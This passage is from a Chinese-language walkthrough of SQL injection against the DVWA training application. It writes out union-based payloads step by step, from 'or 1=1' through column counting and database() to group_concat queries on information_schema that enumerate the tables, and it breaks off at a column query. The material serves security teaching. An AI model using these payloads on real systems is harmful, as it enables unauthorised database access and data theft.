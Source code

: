 ![MlNIBj.png](https://s2.ax1x.com/2019/11/11/MlNIBj.png)

 `抓包更改参数id为1 or 1=1 #，查询成功：` 

![MlUAgO.png](https://s2.ax1x.com/2019/11/11/MlUAgO.png)

![MlUEvD.png](https://s2.ax1x.com/2019/11/11/MlUEvD.png)

 `说明存在数字型注入。 `

 由于是数字型注入，服务器端的mysql_real_escape_string函数就形同虚设了，因为数字型注入并不需要借助引号。 

###  猜解SQL查询语句中的字段数 

` 抓包更改参数id为1 order by 2 #，查询成功： `

![MlwIzV.png](https://s2.ax1x.com/2019/11/11/MlwIzV.png)

` 抓包更改参数id为1 order by 3 #，报错： `

![MlwLdJ.png](https://s2.ax1x.com/2019/11/11/MlwLdJ.png)

` 说明执行的SQL查询语句中只有两个字段，即这里的First name、Surname。 `

###  确定显示的字段顺序 

 `抓包更改参数id为1 union select 1,2 #，查询成功： `

![Ml0JWq.png](https://s2.ax1x.com/2019/11/11/Ml0JWq.png)

 说明执行的SQL语句为select First name,Surname from 表 where ID=id… 

###  获取当前数据库

 `抓包更改参数id为1 union select 1,database() #，查询成功： `

![Ml0j0g.png](https://s2.ax1x.com/2019/11/11/Ml0j0g.png)

` 说明当前的数据库为dvwa。 `

###  获取数据库中的表 

`抓包更改参数id为1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #，查询成功：`

![MlBK91.png](https://s2.ax1x.com/2019/11/11/MlBK91.png)

` 说明数据库dvwa中一共有两个表，guestbook与users。 `

###  获取表中的字段名 

`抓包更改参数id为1 union select 1,group_concat(column_name) from information_schema.columns where table_name=’users ’#，查询失败：`
